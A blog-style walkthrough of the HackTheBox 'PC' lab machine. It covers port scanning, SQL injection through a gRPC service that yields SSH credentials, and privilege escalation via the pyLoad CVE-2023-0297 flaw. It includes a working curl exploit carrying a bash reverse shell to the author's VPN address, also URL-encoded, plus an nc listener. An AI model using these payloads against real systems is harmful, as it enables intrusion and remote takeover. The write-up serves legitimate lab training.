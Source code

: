 ```yaml
---
layout: post
status: publish
published: true
title: PC Machine 
author: horus
categories: [CTF]
tags: [CTF,HackTheBox,Easy]
comments: true
image: main.png
--- 
```


## Introduction : 
Hello, I hope you are doing well. HackTheBox has published a machine called `PC`. It is an easy machine that has an abnormal beginning in enumeration, and we will solve it today together. I hope you enjoy the walkthrough.

DIFFICULTY : `Easy` 
OPERATING SYSTEM : `Linux`
IP:`10.10.11.214`	

## Improved Topics : 
- Enumeration
- sql injection
- port forwarding

## Used tools : 
- nmap
- grpcui
- sqlmap
- linpeas


---
## Enumeration :
The first thing that i have to do is to scan the target using `nmap` by using this command `nmap -A 10.10.11.214` to see the opened ports on it . after the scan have finished ,no ports are open were found . so i tried this command to discover all ports for **1** to **65,535** `nmap -p- -Pn 10.10.11.214` and this was the result : 
```
Nmap scan report for 10.10.11.214
Host is up (0.44s latency).
Not shown: 65533 filtered ports
PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown
```
i noticed this strange port `50051/tcp open  unknown` i googled it and after some search i founded that service called  *gRPC* uses this port .

> *gRPC* : gRPC is an open-source framework developed by Google for efficient remote procedure calls (RPC) between distributed systems. It uses the HTTP/2 protocol as its transport layer, enabling multiplexing and high-performance communication over a single TCP connection. gRPC supports multiple programming languages and uses Protocol Buffers (protobuf) as the interface definition language (IDL) for describing data structures and services. It simplifies the implementation of client-server applications and APIs by handling the underlying communication details. gRPC supports various communication patterns and offers high performance, language independence, and a rich set of features for building scalable distributed systems.
{: .prompt-tip }


I searched for *gRPC* on google to see if it have any CVES or vulnerabilities , i came across this writeup [https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9] , i discovered that it might vulnerable by *Sql Injection*
,so lets get to the exploitation part. 

---
## Exploitation (user.txt):
I downloaded and installed tool called [`grpcui`](https://github.com/fullstorydev/grpcui) to interact with grpc and send requests.
to run the tool we need to execute this command `grpcui -plaintext 10.10.11.214:50051` then after you run it ,it will provide you with url on you local machine to access the tool webpage and interact with `grpc` .
![](/assets/images/Pasted%20image%2020230604092109.png)
it have one service and three method names :
	- RegisterUser
	- LoginUser
	- getinfo

* First i tried to register a user to test the functions 
![](/assets/images/Pasted%20image%2020230604092652.png)
* then i tried to login using the above credentials ,then this token showed up ![](/assets/images/Pasted%20image%2020230604092929.png)
* then i tried to make a request in `getinfo` function to get info request for id `1`
but the response was this ![](/assets/images/Pasted%20image%2020230604093401.png)
* i tried to put token header in the post request but it didn't work
* then i tried to set name=`token` and value=`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWhtZWQiLCJleHAiOjE2ODU4NzM5NjF9.5stpokmr4tvpSgt76czT5TbbR-09zA9Nxs27sXEZmgI` in the request metadata and it worked.
![](/assets/images/Pasted%20image%2020230604093943.png)
* after that i tried to test for `sql injection` on the id parameter using tool called `sqlmap`
* i saves the whole request in file called `request.txt` , then i executed this command to test for sqli `sqlmap -r request.txt -p id` , the result was that it is vulnerable to sqli and it was using `sqllite` ,then i used this command to show the tables in the database `sqlmap -r request.txt -p id --tables`  and the result was that the database have only one table called `accounts`, i tried then to dump all the database but sqlmap didn't do well ,so i decided to retrieve the password and username manually.
* i tried to dump password by this request ![](/assets/images/Pasted%20image%2020230604101322.png)
* and username of this password by this request ![](/assets/images/Pasted%20image%2020230604101448.png)
* next after i got these credentials ***username=sau*** and ***password=HereIsYourPassWord1431***
-  i tried to login with it to ssh 
- Booom i have gained foothold ladies and gentlemen ![](/assets/images/Pasted%20image%2020230605011804.png)
- See you in the privilege escalation part ....

---
## Privilege Escalation :
* after i have gained a shell on the machine by using ssh it's time to gain the root privilege.
-  first i have made a local server on my machine that hosts file called `linpeas.sh` that will provide us with information that will help us to gain the root privilege, i used this command to make the server `python3 -m http.server`
- Then i tried to download the script on the `pc` machine using this command `curl http://10.10.16.65:8000/linpeas.sh > linpeas.sh` ,then i will give it the permission to be an executable by this command `chmod +x linpeas.sh` ,then run it using this command `./linpeas.sh`
	`10.10.16.65` is my local ip on HTB vpn network .
	The `chmod` command is used to change the permissions of a file or directory. The `+x` option specifies that the execute permission should be added.

* when i was monitor the `linpeas.sh` output , i came across this![](/assets/images/Pasted%20image%2020230605014642.png)
* there is two other ports are running localy on the `pc` machine `8000` , `9666`,  and there is python server that is runnig using `root` privilege and it properly run on port `8000` ![](/assets/images/Pasted%20image%2020230605015603.png)
* so let's check it , it might be interesting to gain root privilege .
* we can access this server on our local machine by using `port forwarding` technique , to do that we must execute this command on our local machine `ssh -L 8001:0.0.0.0:8000 sau@10.10.11.214` 
	ssh -L `local_port`:`machine_local_ip`:`machine_port` `machine_user`@`machine_ip`

- i visited `http:127.0.0.1:8001` on my local machine to see the service that is running on the `8000` and i also tried to access `9666` and they were running on the same service that called `pyload`.![](/assets/images/Pasted%20image%2020230605022042.png)
	pyload : it is Free and Open Source download manager written in Python and designed to be extremely lightweight

- i searched on google to see if this framework have any CVES , and i have found that it have a `Remote Code Execution (RCE)` vulnerability.
- i readed about the vulnerability on this page [#CVE-2023-0297](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad) ,so let's exploit it to gain the root flag.
---
### Exploitation (root.txt):
* to exploit this `rce` vulnerability we should execute this command (exploit) on `pc` machine.
```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://<target>/flash/addcrypted2'
```
* but before we fire it we must edit on it , i changed `<target>` to `0.0.0.0:8000` and `touch%20/tmp/pwnd\` to `/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.65/5555 0>&1'`

	`/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.65/5555 0>&1'` this line is a reverse shell command .
	`10.10.16.65` is our local ip on HTB vpn network
	`5555` is the port that we will receive the reverse shell connection on it in our local machine 

- we should prepare `netcat` to receive the reverse shell connection by using this command `nc -nlvp 5555` , we will execute it on our local machine to receive the connection on `5555` port . 

* this is our final exploit , we should first encode the above reverse shell command using `url encoding` to overcome spaces problem
```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system("%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%36%2e%36%35%2f%35%35%35%35%20%30%3e%26%31%27");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://0.0.0.0:8000/flash/addcrypted2'
```

* lets fire the exploit and gain the root flag...

## Win : 
* we have got the root flag ladies and gentlemen ![](/assets/images/Pasted%20image%2020230605025946.png)

